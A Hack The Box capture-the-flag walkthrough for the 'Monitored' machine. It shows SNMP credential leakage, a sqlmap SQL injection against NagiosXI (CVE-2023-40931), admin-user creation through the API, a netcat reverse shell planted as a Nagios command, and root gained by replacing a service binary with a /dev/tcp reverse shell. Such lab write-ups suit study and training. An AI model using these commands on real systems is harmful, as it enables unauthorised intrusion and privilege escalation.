Monitored — Hack The Box


Today we have quite interesting box called Monitored which was introduced to HTB with medium difficulty. Let’s dive in and see what we can learn about it.
Go ahead and start scanning the ports against the IP address, maybe we have something interesting we can start with.
nmap -sT --top-ports 1000 -sV -sC 10.X.X.X
Nothing fancy, regular ports are open. None of them have publicly known exploits for unauthenticated sessions.
At first, visiting the IP address we can see that we are redericted to nagios.monitored.htb. Add the IP address into /etc/hosts file to resolve domain and visit the website.

Looks like NagiosXI installation. NagiosXI is server and network monitoring software. (Spoiler alert: possibly has really nice integration with command line)
Went with default credentials found online nagiosadmin:nagiosadmin, but didn’t work obviously. At this point, our hands are tied. We should get going and uncover mysterious directories with FFUF.
ffuf -u "https://nagios.monitored.htb/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
Well, visiting /nagios doesn’t reveal much. It requires us to login to platform and default credentials still not working.
Maybe we have something in /nagiosxi directory? Do you remember? When we tried to login we got redirected to https://nagios.monitored.htb/nagiosxi. Run FFUF against it reveals some interesting paths.
ffuf -u "https://nagios.monitored.htb/nagiosxi/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -r

All of these “critical” endpoints, like /admin /config /terminal /accounts /db , etc either redirects us to login page or is forbidden to access without proper authentication. However, /api endpoint looks very interesting. Maybe we can hunt for endpoints and make our way through the system. It’s time to investigate what do we have inside /api directory. Looking in the internet for such info gave me results from 2016–2017 which were obviously outdated (in my opinion) and weren’t applicable for our scenario. So, let’s fire up our friend FFUF.
ffuf -u "https://nagios.monitored.htb/nagiosxi/api/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -r -recursionThe scan gave 2 endpoints /v1 and /includes. As you may know, /v1 is indicator of version controlled endpoints and most probably we will find what we are looking for here. Let’s give it one more shot.
ffuf -u "https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -r -recursion -fs 32Note: If we visit /api/v1/<something> we can see that all the “endpoints” were giving us same message with size of 32 so we gave -fs 32 option to filter out mostly false-positive hits.
One of the first that came across to the eyes was /authenticate endpoint. So, as we saw earlier in NagiosXI there is login.php file which is possibly taking care of authentication, but now we see /api/v1/authenticate as well? Hmm interesting..
Other than this /authenticate endpoint, there is not much information we have to proceed with neither the credentials. Wait a minute… We have done only TCP scan with nmap, right? How can we forget about UDP ? Going with UDP scan against the service reveals more information and open ports!
While doing pen testing of this box, I came across with tool called Incursore which automates all the scanning you want. Under the hood, it runs tools automatically for you. It’s a simple bash script. This time, try scanning with incursore (Remember, UDP scan requires root privileges)
sudo incursore -h 10.129.10.165 -t udp
Bingo! we got hits and we can see that port 161/UDP snmp is open. SNMP stands for Simple Network Management Protocol and you can find info pen testing snmp on HackTricks.
incursore can automate all the dumping information for you through SNMP. Let’s run it (This process takes a while, feel free to go and grab a coffee ☕)
sudo incursore -h 10.129.10.165 -t reconAs recon goes, we start to see information dumped from snmp (snmpwalk is used by incursore)
iso.3.6.1.2.1.1.1.0 = STRING: "Linux monitored 5.10.0-27-amd64 #1 SMP Debian 5.10.205-2 (2023-12-31) x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (811711) 2:15:17.11
iso.3.6.1.2.1.1.4.0 = STRING: "Me <[email protected]>"
iso.3.6.1.2.1.1.5.0 = STRING: "monitored"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1642) 0:00:16.42After a sip of tea (or coffee), we see much more stuff flowing in
iso.3.6.1.2.1.25.4.2.1.5.884 = ""
iso.3.6.1.2.1.25.4.2.1.5.920 = ""
iso.3.6.1.2.1.25.4.2.1.5.949 = STRING: "/usr/sbin/snmptt --daemon"
iso.3.6.1.2.1.25.4.2.1.5.950 = STRING: "/usr/sbin/snmptt --daemon"
iso.3.6.1.2.1.25.4.2.1.5.975 = STRING: "-pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6"
iso.3.6.1.2.1.25.4.2.1.5.977 = STRING: "-d /usr/local/nagios/etc/nagios.cfg"
iso.3.6.1.2.1.25.4.2.1.5.978 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
iso.3.6.1.2.1.25.4.2.1.5.979 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
iso.3.6.1.2.1.25.4.2.1.5.980 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
iso.3.6.1.2.1.25.4.2.1.5.981 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
iso.3.6.1.2.1.25.4.2.1.5.1365 = STRING: "-d /usr/local/nagios/etc/nagios.cfg"
iso.3.6.1.2.1.25.4.2.1.5.1381 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh <REDACTED> <REDACTED>"
iso.3.6.1.2.1.25.4.2.1.5.1382 = STRING: "-c /opt/scripts/check_host.sh <REDACTED> <REDACTED>"
iso.3.6.1.2.1.25.4.2.1.5.1439 = STRING: "-bd -q30m"
iso.3.6.1.2.1.25.4.2.1.5.4060 = ""
iso.3.6.1.2.1.25.4.2.1.5.4882 = ""Can you see iso.3.6.1.2.1.25.4.2.1.5.1381(or 2)OID? That must be some script which requires authentication and the second and third parameters must be username:password!! Soo, we have the user <REDACTED>:<REDACTED>.
Let’s head back to NagiosXI original login page, can we authenticate with this user? …. ….. …. (waiting….) No luck!
At this point, you may think that we are out of luck, but do you remember the API endpoint we found earlier? /api/v1/authenticate? Let’s CURL with POST method and see what this endpoint has to tell us.
┌──(kali㉿kali)-[~]
└─$ curl -XPOST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -k
{"error":"Must be valid username and password."}username… and password… Okay, let’s send the user we found in SNMP
┌──(kali㉿kali)-[~]
└─$ curl -XPOST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=<REDACTED>&password=<REDACTED>" -k
{"username":"<REDACTED>","user_id":"<REDACTED>","auth_token":"ea2f23b13da3acb8a55ef23983b94be19ca6caa4","valid_min":5,"valid_until":"Sat, 20 Jan 2024 07:33:00 -0500"}Finally, something… We have the auth token! Let’s see if we can authenticate with this token into NagiosXI portal. Visit root login directory and add extra token parameter (reference can be found on API Documentation) along with auth_token.

Maybe our user is admin? Why don’t we check /nagiosxi/admin (found in earlier scans)? We are greeted with message You are not authorized to access this feature. Contact your system administrator for more information, or to obtain access to this feature.
Well, let’s strategize and break down into multiple steps our movement inside the system.
- We want to get reverse shell from the web portal
- To get reverse shell we want to have admin rights to start services/commands (This knowledge comes from reading about NagiosXI documentations and how the software operates)
- To get admin rights we need to either escalate our privileges to admin with finding and cracking the password’s hash or find a way to register new admin user
- To get admin’s password’s hash, we need to look into database
Searching internet with keywords “NagiosXI CVE”, “NagiosXI exploit”, etc. I came across with the article containing recently publicly shared information regarding SQLi for NagiosXI version 5.11.1 and lower (as we can see from the portal our installation is V5.11 meaning it’s vulnerable).
Reading about CVE-2023–40931, we can craft sqlmap command to directly target the endpoint and parameter. (Note: don’t forget that to exploit this vulnerability, you need to be authenticated. So, grab a user cookie and let’s go)
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=PUT_YOUR_COOKIE_HERE" --dbms=MySQL --level=1 --risk=1 -D nagiosxi -T xi_users --dumpAs you can see, we have dumped the information containing sensitive admin information (Password hash, API Key, etc).
Trying and trying cracking the password with john was not effective at all. Tried whole rockyou.txt, but no luck.
Do you remember looking at some API endpoints with 32 bytes response? All of them were asking us to provide the API key to them. Is this the API key we found what these endpoints were looking for?
Let’s try hitting anything /api/v1/something?apikey=<REDACTED>
BINGO! We got response not “No API Key is provided”, but different error complaining about service not found! We have admin api key meaning we can hit API endpoints with admin rights. This will help us achieve our goal about creating the user with admin rights we mentioned before.
Checking internet, I searched for “NagiosXI online demo” and came across with Live installation of NagiosXI. Logging in with admin user (for testing) I can see tons of API documentation in Help panel. With correct navigation and reading I came across endpoint /api/v1/system/user. If you POST to this endpoint with correct parameters (documented in the panel) we can create admin user into our system! Wait no more, let’s hit it!
curl -s -XPOST "http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=<REDACTED>" -d "username=admin&password=admin&auth_level=admin"
Quickly, login with our credentials! (admin:admin)
Pheeewwww!!! We have admin rights. Let’s find a way to get a reverse shell!
Remember talking about services/command executions? NagiosXI has such functionality residing on /nagiosxi/includes/components/ccm/xi-index.php. From left panel you can navigate to Commands -> Commands which will open all already predefined commands for Nagios service

From here, we need to press “+ Add New” button and add command with any name but “nc <your_ip> <your_port> -e /bin/bash” value.
After saving new command and applying configuration, head back to Services page (from Core Confing Manager’s left panel). Edit one of the service to use your newly defined command

Start netcat listener on your host machine and hit “Run Check Command”.

That’s it, we cracked the user! Go ahead and add your ssh public key for user and ssh into the system for the sake of stability.
Escalating Privileges
First things first, I do simple sudo -l command to check if we can run anything with sudo. In this case, multiple scripts are revealed which can be run by our user.

Good to know.. Reading through all these scripts we can’t find much to get our hands on. Let’s check if LinPeas can offer us something.
Running linpeas.sh gave us interesting insights.

We see that there are services which execute files and we can edit those files? That’s interesting… Can you remember what sudo -l output gave to us? Have you read any of those scripts?
There is one interesting manage_services.sh which can start/stop/restart/etc services. (Basically, what systemctl is doing)
So…
- We can start a service with
sudo manage_services.shwhich will execute as root - We can write into files which is executed by service.
Do these ring a bell?
We will take npcd service.
By checking the content of /usr/local/nagios/bin/npcd we can see that it’s linux executable (which is normal). Anyways, for us it doesn’t matter if it’s executable of zip file or whatever. Service is executing it, so here we are. Start netcat listener on your host machine and head back to the victim
rm /usr/local/nagios/bin/npcd
nano /usr/local/nagios/bin/npcd # Create this file and edit it
# ------- Put this into your npcd file
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
# -------
chmod +x /usr/local/nagios/bin/npcd # Make it executable, so service can execute it
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcdAnd here… ladies and gents… we got him…

Wow… What a ride!
Thanks for the creators for such a great machine.
Happy Pen Testing!